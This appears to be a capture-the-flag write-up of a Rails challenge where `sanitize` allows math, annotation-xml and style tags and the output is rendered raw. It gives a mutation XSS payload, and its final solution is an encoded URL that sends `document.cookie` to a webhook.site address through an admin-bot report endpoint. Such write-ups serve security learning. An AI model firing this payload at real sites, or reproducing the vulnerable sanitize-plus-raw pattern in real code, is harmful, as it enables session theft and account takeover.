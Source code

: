 +++
title = "Flavourless"  
date = 2025-07-06  
authors = ["Abizer Lokhandwala"]  
+++

---

### Premise

This is a very simple page. It shows our input with some sanitization, but it allows `<math>`, `<annotation-xml>`, and `<style>` tags.

```ruby
class FlavourController < ApplicationController
  include ActionView::Helpers::SanitizeHelper
  def index
    user_input = params[:input]

    @sanitized_input = sanitize(user_input, tags: [ "math", "annotation-xml", "style" ])
  end
end
```

---

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Flavour Rater</title>
  <script src="https://cdn.tailwindcss.com"></script>
  <style>
    body {
      background: linear-gradient(135deg, #1a1a1a 0%, #2b2b2b 100%);
      min-height: 100vh;
      font-family: 'Inter', sans-serif;
      color: #ffffff;
    }
    .glow-text {
      text-shadow: 0 0 10px rgba(255, 135, 0, 0.7);
    }
    .custom-container {
      background: rgba(255, 255, 255, 0.05);
      backdrop-filter: blur(10px);
      border: 1px solid rgba(255, 135, 0, 0.3);
    }
    .code-block {
      background: #2d2d2d;
      padding: 0.25rem 0.5rem;
      border-radius: 0.25rem;
    }
  </style>
</head>
<body class="flex items-center justify-center p-4">
  <div class="custom-container rounded-2xl shadow-2xl p-8 max-w-2xl w-full">
    <h1 class="text-4xl font-bold text-orange-500 glow-text text-center mb-6">Flavour Less ;)</h1>

    <% if @sanitized_input.present? %>
      <p class="font-semibold text-orange-400 mb-2">Sanitized Output:</p>
      <div class="p-4 bg-gray-900 rounded-lg text-white">
        <%= raw @sanitized_input %>
      </div>
    <% else %>
      <p class="text-gray-300">No input provided. Please add a query parameter, e.g., <code class="code-block">?input=...</code>.</p>
    <% end %>
  </div>
</body>
</html>
```

---

### Analysis

This was a simple **mutation XSS** question.  
We can just try some default methods and payloads.

Basically:

```html
<math><annotation-xml encoding="text/html"><style><img src onerror=alert(origin)>
```

will confuse the browser on what is and isn’t code to be executed, and will **execute the `onerror` part**. This is called **mutation injection**.

---

### Final Solution

```
http://localhost:3000/report?url=http%3A%2F%2Flocalhost%3A3000%2F%3Finput%3D%253Cmath%253E%253Cannotation-xml%2520encoding%3D%2522text%2Fhtml%2522%253E%253Cstyle%253E%253Cimg%2520src%2520onerror%3D%2522window.location.href%3D%2527https%3A%2F%2Fwebhook.site%2F966f7699-02fe-4b89-ab1c-86aae18d86d6%3Fcookie%3D%2527%252BencodeURIComponent%28document.cookie%29%3B%2522%253E
```

